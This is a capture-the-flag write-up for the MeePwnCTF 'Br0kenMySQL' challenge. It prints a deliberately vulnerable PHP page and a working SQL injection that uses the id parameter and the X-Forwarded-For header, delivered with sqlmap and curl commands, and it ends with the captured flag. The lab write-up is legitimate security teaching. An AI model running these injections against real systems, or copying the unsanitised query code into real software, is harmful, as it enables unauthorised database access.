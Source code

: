 # Br0kenMySQL

**100 pts**

> [BabeTrick](http://139.59.239.133/?debug=%F0%9F%95%B5)

---

# Writeups
```php
<title>Br0kenMySQL</title><h1><pre>
<p style='color:Red'>Br0kenMySQL</p>
<?php

if($_GET['debug']=='🕵') die(highlight_file(__FILE__));

require 'config.php';

$link = mysqli_connect('localhost', MYSQL_USER, MYSQL_PASSWORD);

if (!$link) {
    die('Could not connect: ' . mysql_error());
}

if (!mysqli_select_db($link,MYSQL_USER)) {
    die('Could not select database: ' . mysql_error());
}
    $id = $_GET['id'];
    if(preg_match('#sleep|benchmark|floor|rand|count#is',$id))
        die('Don\'t hurt me :-(');
    $query = mysqli_query($link,"SELECT username FROM users WHERE id = ". $id);
    $row = mysqli_fetch_array($query);
    $username = $row['username'];

    if($username === 'guest'){

        $ip = @$_SERVER['HTTP_X_FORWARDED_FOR']!="" ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR'];
        if(preg_match('#sleep|benchmark|floor|rand|count#is',$ip))
            die('Don\'t hurt me :-(');
        var_dump($ip);
        if(!empty($ip))
            mysqli_query($link,"INSERT INTO logs VALUES('{$ip}')");

        $query = mysqli_query($link,"SELECT username FROM users WHERE id = ". $id);
        $row = mysqli_fetch_array($query);
        $username = $row['username'];
        if($username === 'admin'){
            echo "What ???????\nLogin as guest&admin at the same time ?\nSeems our code is broken, here is your bounty\n";
            die(FLAG);
        }
        echo "Nothing here";
    } else {
        echo "Hello ".$username;
    }
?>
</h1>
</pre>

1
```

## Reading the code
First of all, search the flag. We can get the flag only if you login as guest and admin at the same time.
```php
if($username === 'guest'){
    ...
    if($username === 'admin'){
        ...
        die(FLAG);
    }
    ...
}
```
There exist 2 parameters we could use: ***$_GET['id']*** ***@$_SERVER['HTTP_X_FORWARDED_FOR']***. The header is also a paramete we can set. After a few seconds of try and error we get the id of the user guest (2) and admin (1). The header is store in the table logs.
```php
mysqli_query($link,"INSERT INTO logs VALUES('{$ip}')");
```
## Testing our thoughts
In the table ***logs*** looks like there is a value named **ip** and we can confirm it with a simple sqlmap search. We test if we can hack the header as well.
```bash
$ sqlmap --dbms -u "http://139.59.239.133/?id=2 -T logs"
$ curl --header "X-Forwarded-For: 'we can hack it'" "http://139.59.239.133/?id=2"
```
## SQL injection
1. We need the username with id 2 ***(guest)***
2. We insert the variable "@$_SERVER['HTTP_X_FORWARDED_FOR']" in the table **logs**
3. We need the username with id 1 ***(admin)***

The full sql looks like this (with the ip as a random number):
```mysql
SELECT username FROM users WHERE id = 2 or id=(SELECT 1 FROM logs WHERE ip=5641314)
```
## Our friend curl
As soon as the random number already exsists in the table **logs** the sql will return the first id, in this case ***admin (id=1)*** user. We need to be sure that **@$_SERVER['HTTP_X_FORWARDED_FOR']** is never used in the table. A random number will do the trick.
```bash
$ curl --header "X-Forwarded-For: 5641314" "http://139.59.239.133/?id=2%20or%20id=(SELECT%201%20FROM%20logs%20WHERE%20ip=5641314)"
```
```html
<title>Br0kenMySQL</title><h1><pre>
<p style='color:Red'>Br0kenMySQL</p>
string(8) "86574965"
What ???????
Login as guest&admin at the same time ?
Seems our code is broken, here is your bounty
MeePwnCTF{_b4by_tr1ck_fixed}
```
### MeePwnCTF{_b4by_tr1ck_fixed}
